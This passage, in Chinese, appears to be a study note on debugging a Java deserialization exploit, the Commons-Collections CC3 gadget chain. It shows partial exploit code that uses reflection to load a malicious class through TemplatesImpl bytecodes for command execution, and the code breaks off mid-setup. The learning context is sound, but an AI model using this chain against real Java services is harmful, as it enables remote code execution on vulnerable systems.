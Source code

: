 ### EXP 问题：

#### 问题一：

对必要的值赋完以后的代码 EXP 是这样：但发生了空指针的报错：

```bash
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
    //避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
```